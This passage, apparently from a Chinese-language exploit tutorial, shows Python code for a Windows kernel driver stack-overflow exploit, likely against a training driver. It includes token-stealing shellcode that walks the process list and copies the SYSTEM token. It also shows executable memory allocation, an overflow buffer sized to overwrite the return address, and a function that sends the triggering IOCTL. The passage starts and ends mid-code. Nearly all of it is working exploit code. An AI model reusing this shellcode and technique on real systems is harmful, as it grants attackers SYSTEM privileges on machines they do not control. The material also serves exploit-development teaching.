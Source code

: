 ```PYTHON
        "\xBA"+ struct.pack("<I",pid) +  #mov edx,pid(CMD)
        "\x8B\x89\xB8\x00\x00\x00"  # mov ecx, [ecx + FLINK_OFFSET] <-|
        "\x81\xe9\xB8\x00\x00\x00"      # sub ecx, FLINK_OFFSET           |
        "\x39\x91\xB4\x00\x00\x00"  # cmp [ecx + PID_OFFSET], edx     |
        "\x75\xED"                  # jnz
        #---find system process"
        "\xBA\x04\x00\x00\x00"      # mov edx, 4 (SYSTEM PID)
        "\x8B\x80\xB8\x00\x00\x00"  # mov eax, [eax + FLINK_OFFSET] <-|
        "\x2D\xB8\x00\x00\x00"      # sub eax, FLINK_OFFSET           |
        "\x39\x90\xB4\x00\x00\x00"  # cmp [eax + PID_OFFSET], edx     |
        "\x75\xED"                  # jnz                           ->|
        #---[Copy System PID token]
        "\x8B\x90\xF8\x00\x00\x00"  # mov edx, [eax + TOKEN_OFFSET]
        "\x89\x91\xF8\x00\x00\x00"  # mov [ecx + TOKEN_OFFSET], edx
        #---[Recover]
        
        "\x61"                      # popad
        "\x31\xC0"                  # NTSTATUS -> STATUS_SUCCESS
        "\x83\xc4\x14"              # add esp, 0x14
        "\x5d"                      #pop ebp
        "\xC2\x08\x00"              # ret 8
        
        ""
    )
                                        #    ret

    print "[*]Allocating buffer for shellcode..."
    lpAddress = None
    dwSize = len(tokenstealing)
    flAllocationType = (MEM_COMMIT | MEM_RESERVE)
    flProtect = PAGE_EXECUTE_READWRITE
    
    addr = VirtualAlloc(lpAddress,         # _In_opt_  LPVOID
                        dwSize,            # _In_      SIZE_T
                        flAllocationType,  # _In_      DWORD
                        flProtect)         # _In_      DWORD
    if not addr:
        print "\t[-]Error allocating shellcode: " + FormatError()
        sys.exit(-1)

    print "\t[+]Shellcode buffer allocated at: 0x%x" % addr
    
    # put de shellcode in de buffer and shake it all up
    memmove(addr, tokenstealing, len(tokenstealing))
    return addr
```
第五步，创建一个字符串用于溢出驱动
```PYTHON
   inBuffer = create_string_buffer("A" * (0x828+4) + struct.pack("<I", scAddr))
```
第六步，触发漏洞。
```PYTHON
def trigger(hDevice, dwIoControlCode, scAddr):
    """Create evil buffer and send IOCTL"""

    inBuffer = create_string_buffer("A" * (0x828+4) + struct.pack("<I", scAddr))
    #evilbuf = create_string_buffer("A"*0x828+'1'*4+'2'*4)

    print "[*]Triggering vulnerable IOCTL..."
    lpInBuffer = addressof(inBuffer)
    nInBufferSize = len(inBuffer)-1 # ignore terminating \x00
    lpOutBuffer = None
    nOutBufferSize = 0
    lpBytesReturned = byref(c_ulong())
```